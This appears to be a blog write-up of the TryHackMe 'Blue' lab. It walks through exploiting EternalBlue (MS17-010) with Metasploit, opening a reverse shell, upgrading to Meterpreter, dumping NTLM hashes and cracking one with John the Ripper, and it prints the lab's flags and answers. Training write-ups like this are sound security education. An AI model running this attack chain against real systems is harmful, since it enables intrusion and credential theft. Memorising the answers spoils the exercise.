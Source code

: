```yaml
---
layout: default
title: Blue
---
```

[← Back to the Home page]({{ site.baseurl }}/)


"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the **SMB (Server Message Block)** protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.

EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.

This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).

### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)

---

## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later).

1.  How many ports are open with a port number under 1000?
2.  What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

We can answer these questions with just one nmap scan:

`nmap --script vuln [target_IP]`
This will return all open ports (9 in total, 3 under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or ms17-010).
![nmap]({{ site.baseurl }}/assets/images/thm/blue/ports.png)

## Gain Access
To get through this section you'll need to install the Metasploit framework. Then:

Become root: `sudo su`

Open up Metasploit: `msfconsole`

Set your local IP address as LHOST and LPORT to a random port that is not already in use:

`set LHOST tun0`
`set LPORT 4444`
Search Metasploit's database for the EternalBlue exploit: `search ms17-010`

![ms17-010]({{ site.baseurl }}/assets/images/thm/blue/ms17-010.png)

Use the exploit: `use exploit/windows/smb/ms17_010_eternalblue`

Show the options for the exploit: `show options`. You'll get "RHOSTS" as the first result.

![options]({{ site.baseurl }}/assets/images/thm/blue/options.png)

Now set RHOSTS as the target machine's IP address: `set RHOSTS` [target_IP]

Set the payload: `set payload windows/x64/shell/reverse_tcp`

Run the exploit: `run`

## Escalate
Background the session with Ctrl+z (then press `y` when prompted).

Let's now search the Metasploit database for info on how to convert a shell to a Meterpreter shell:
`search shell_to_meterpreter`

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`.

![shell]({{ site.baseurl }}/assets/images/thm/blue/shell.png)

Use this post module with use 0 and show its' options with show options.

![session]({{ site.baseurl }}/assets/images/thm/blue/session.png)

Since we have two sessions going on, we will have to change the SESSION option to 1 with `set SESSION 1`. To know to which session you have to switch, use the command `sessions -l`.

![sessions]({{ site.baseurl }}/assets/images/thm/blue/sessions.png)

Now run the exploit with `run`.
Once we get the [*] Stopping exploit/multi/handler message, press Ctrl+c to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2]({{ site.baseurl }}/assets/images/thm/blue/session2.png)

![meterpreter]({{ site.baseurl }}/assets/images/thm/blue/meterpreter.png)

The getsystem command will now return this:

![system]({{ site.baseurl }}/assets/images/thm/blue/ports.png)

You can also list all the processes with the ps command and you can migrate to one of these.

![ps]({{ site.baseurl }}/assets/images/thm/blue/ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate [PID]` (e.g., `migrate 2868`).

## Cracking
Now use the `hashdump` command.

![hashdump]({{ site.baseurl }}/assets/images/thm/blue/hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with:

`echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with:
`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

This will return alqfna22 as the password.
![john]({{ site.baseurl }}/assets/images/thm/blue/john.png)

## Find flags!
The first flag is located in the C:\ folder:

> flag{access_the_machine}

The second flag is located in the C:\Windows\System32\config folder:

> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:

> flag{admin_documents_can_be_valuable}

That's all, hope I helped.
